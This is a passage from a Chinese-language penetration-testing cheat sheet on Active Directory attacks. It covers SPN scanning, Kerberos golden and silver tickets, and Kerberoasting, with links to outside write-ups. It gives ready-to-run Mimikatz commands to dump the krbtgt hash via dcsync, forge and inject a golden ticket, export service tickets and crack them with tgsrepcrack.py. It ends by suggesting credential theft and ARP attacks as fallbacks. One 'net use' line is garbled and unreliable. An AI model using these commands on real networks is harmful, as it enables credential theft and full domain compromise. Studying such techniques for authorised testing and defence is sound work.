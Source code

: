 ##### SPN扫描 
Kerberoast可以作为一个有效的方法从Active Directory中以普通用户的身份提取服务帐户凭据，无需向目标系统发送任何数据包。
SPN是服务在使用Kerberos身份验证的网络上的唯一标识符。它由服务类，主机名和端口组成。在使用Kerberos身份验证的网络中，必须在内置计算机帐户（如NetworkService或LocalSystem）或用户帐户下为服务器注册SPN。对于内部帐户，SPN将自动进行注册。但是，如果在域用户帐户下运行服务，则必须为要使用的帐户的手动注册SPN。
SPN扫描的主要好处是，SPN扫描不需要连接到网络上的每个IP来检查服务端口，SPN通过LDAP查询向域控执行服务发现，SPN查询是Kerberos的票据行为一部分，因此比较难检测SPN扫描。
相关阅读 :
* [非扫描式的SQL Server发现](https://blog.netspi.com/locate-and-attack-domain-sql-servers-without-scanning/) 
* [SPN扫描](https://adsecurity.org/?p=1508) 
* [扫描SQLServer的脚本](https://github.com/PyroTek3/PowerShell-AD-Recon) 

##### Kerberos的黄金门票 
在域上抓取的哈希
```
lsadump::dcsync /domain:pentest.com /user:krbtgt
```
```
kerberos::purge
kerberos::golden /admin:administrator /domain:域 /sid:SID /krbtgt:hash值 /ticket:adinistrator.kiribi
kerberos::ptt administrator.kiribi
kerberos::tgt
net use k: \pnet use k: \pentest.comc$
```
相关阅读 :
* https://adsecurity.org/?p=1640 
* [域服务账号破解实践](http://bobao.360.cn/learning/detail/3564.html) 
* [Kerberos的认证原理](https://blog.csdn.net/wulantian/article/details/42418231) 
* [深刻理解windows安全认证机制ntlm＆Kerberos](https://klionsec.github.io/2016/08/10/ntlm-kerberos/) 

#####  Kerberos的银票务
黄金票据和白银票据的一些区别：
Golden Ticket：伪造`TGT`，可以获取`任何Kerberos`服务权限
银票：伪造TGS，`只能访问指定的服务`
加密方式不同：
Golden Ticket由`krbtgt`的hash加密
Silver Ticket由`服务账号`（通常为计算机账户）Hash加密
认证流程不同：
金票在使用的过程需要同域控通信
银票在使用的过程不需要同域控通信
相关阅读 :
* [攻击者如何使用Kerberos的银票来利用系统](https://adsecurity.org/?p=2011) 
* [域渗透——Pass The Ticket](https://www.feiworks.com/wy/drops/%E5%9F%9F%E6%B8%97%E9%80%8F%E2%80%94%E2%80%94Pass%20The%20Ticket.pdf)

##### 域服务账号破解 
与上面SPN扫描类似的原理
https://github.com/nidem/kerberoast
获取所有用作SPN的帐户
```
setspn -T PENTEST.com -Q */*
```
从Mimikatz的RAM中提取获得的门票
```
kerberos::list /export
```
用rgsrepcrack破解
```
tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```
##### 凭证盗窃 
从搜集的密码里面找管理员的密码 
##### 地址解析协议 
实在搞不定再搞ARP 
    